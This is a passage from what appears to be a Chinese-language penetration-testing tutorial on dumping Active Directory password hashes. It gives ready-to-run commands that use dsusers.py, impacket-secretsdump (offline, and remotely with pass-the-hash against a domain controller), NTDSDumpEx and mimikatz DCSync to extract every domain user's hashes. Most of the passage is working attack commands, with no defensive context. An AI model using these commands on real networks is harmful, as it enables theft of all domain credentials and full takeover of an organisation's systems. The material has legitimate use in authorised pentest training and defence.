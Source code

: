 ```powershell
dsusers.py ntds.dit.export/datatable.3 ntds.dit.export/link_table.5 output --syshive SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout | tee all_user.txt
```

这会将域内的所有用户名以及散列值导出到all_user.txt中。

也可以导出域内计算机信息以及其它信息：

```powershell
dscomputers.py ntsd.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
```

#### 使用impacket工具包导出散列值

项目地址：[SecureAuthCorp/impacket: Impacket is a collection of Python classes for working with network protocols. (github.com)](https://github.com/SecureAuthCorp/impacket)

安装：

```powershell
python setup.py install
# python3 -m pip install impacket
```

然后导出ntds.dit中的所有散列值：

```powershell
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
```

该工具还可以直接通过用户名和散列值进行验证，从远程域控中读取ntds.dit并转储散列值：

```powershell
impacket-secretsdump -hashes xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -just-dc hackme.com/administrator@192.168.0.1
```

#### 在Windows下解析ntds.dit并导出域账户和域散列值

Windows下的工具是`NTDSDumpex.exe`。

项目地址，可以直接下载Release：[zcgonvh/NTDSDumpEx: NTDS.dit offline dumper with non-elevated (github.com)](https://github.com/zcgonvh/NTDSDumpEx)

导出域账户与散列值，需要ntds.dit文件与system文件：

```powershell
NTDSDumpex.exe -d ntds.dit -s system
```

### 利用dcsync获取域散列值

上面的都是获取`ntds.dit`后进行导出，这里则不是这样。

#### 使用mimikatz转储域散列值

mimikatz有一个dcsync功能，可以利用卷影拷贝服务直接读取ntds.dit文件并检索域散列值，但是必须以域管权限运行才能读取：

```powershell
lsadump::dcsync /domain:hackme.com /all /csv
```
